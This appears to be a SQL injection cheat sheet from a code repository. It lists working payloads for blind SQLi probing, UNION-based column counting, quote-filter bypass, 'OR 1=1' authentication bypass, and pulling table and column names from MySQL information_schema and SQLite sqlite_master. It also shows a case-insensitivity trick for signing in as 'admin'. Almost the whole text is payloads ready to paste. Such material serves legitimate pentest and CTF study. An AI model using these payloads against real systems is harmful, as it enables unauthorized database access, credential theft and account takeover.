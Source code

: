 
###### In the following queries, `'` may not work sometimes, so { `\`\`,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

## Blind SQLI
* `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
* `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is case-insensitive.

  `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]


## Finding no of columns in table
* `' UNION SELECT 1,2,3.. FROM table_name`
* `' ORDER BY n`  [If we get error for n, then n-1 will be no of columns]
 
## Limiting no of rows
* `' OR 1=1 LIMIT 1 --`

## Special Bypassing
```   
<?php 
$name = preg_replace("'","",$name);
$pass = preg_replace("'","",$pass);
SELECT * FROM users WHERE username='name' and password='pass'
```
[attack] => user = `\`  & pass = `OR 1=1 --`

## For Mysql
### Finding version and databases
  `' UNION SELECT 1,@@version,database(),4,.....`
### Extracting Tables from databases
  `' union select 1,group_concat(table_name),3... from information_schema.tables where table_schema=database()`
### Extracting columns from databases
  `' union select 1,group_concat(column_name),3... from information_schema.columns where table_schema=database()`
  `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

## For sqlite
 In sqlite sqlite_master replaces information_schema
### Extracting table names
  `' UNION SELECT name FROM sqlite_master WHERE type='table'`
### Extracting column names from a table
  `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`
